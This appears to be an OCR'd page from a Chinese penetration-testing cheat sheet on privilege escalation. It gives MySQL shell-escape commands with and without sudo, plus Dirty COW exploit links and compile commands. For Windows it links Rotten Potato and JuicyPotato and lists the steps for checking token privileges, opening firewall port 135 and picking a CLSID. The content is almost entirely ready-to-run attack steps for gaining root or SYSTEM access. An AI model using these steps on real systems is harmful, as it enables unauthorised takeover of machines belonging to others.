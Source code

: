   
mysql提权  

```
# 获得一个shell
mysql -e '\! /bin/sh'

# sudo + shell
sudo mysql -e '\! /bin/sh'

# udf提权，后续文章讲解

```

  
脏牛提权  

```
# exp地址
https://github.com/gbonacini/CVE-2016-5195

# 脏牛提权
https://github.com/aishee/scan-dirtycow/blob/master/dirtycowscan.sh

# 一般情况靶机上面无法运行脏牛的提权文件，需要结果预编译后执行
# g++编译.cpp文件为可执行文件：
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
# gcc编译.c文件为可执行文件：
gcc -pthread dirty.c -o dirty -lcrypt
gcc 45010.c -o 45010


```

  
烂土豆提权（windows）  

```
https://github.com/foxglovesec/Potato
```

  
juicypotato.exe（多汁土豆提权）  

```
# 下载地址
https://github.com/ohpe/juicy-potato

# 提权步骤
# 查看本地用户的权限，是否具有SeImpersonate或SeAssignPrimaryToken权限
whoami /all
whoami priv
# 如果开启SeImpersonate权限，juicypotato的参数可以使用-t t 
# 如果开启SeAssignPrimaryToken权限，juicypotato的参数可以使用-t u 
# 如果均开启，可以选择-t * 如果均未开启，那么无法提权。

# 查看RPC默认端口是否为135
netstat -abno

# 若rpc服务被修改，则使用-n 参数指定修改后的端口，如 -n 111

# 添加防火墙规则，允许135端口入站
netsh advfirewall firewall add rule name=&#34;135&#34; protocol=TCP dir=in localport=135 action=allow

# 不同操作系统选择可用的CLSID
# 参考列表：
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

# 列表中随便选择了一个
```